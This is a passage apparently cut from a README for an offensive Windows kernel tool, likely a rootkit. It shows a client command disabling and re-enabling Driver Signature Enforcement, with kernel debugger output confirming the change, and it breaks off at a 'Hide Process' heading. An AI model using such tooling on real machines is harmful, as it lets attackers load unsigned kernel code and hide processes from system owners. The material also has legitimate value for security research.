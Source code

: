 ```
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

PS C:\Users\memn0ps\Desktop>
```



## Enable / Disable Driver Signature Enforcement (DSE)

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse --enable
Bytes returned: 16
[+] Driver Signature Enforcement (DSE) enabled: 0x6
```
```
0: kd> db 0xfffff8005a6683b8 L1
fffff800`5a6683b8  06 
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse --disable
Bytes returned: 16
[+] Driver Signature Enforcement (DSE) disabled: 0xe
```

```
0: kd> db 0xfffff8005a6683b8 L1
fffff800`5a6683b8  0e
```

## Hide Process

![CMD](./cmd_hide1.png)
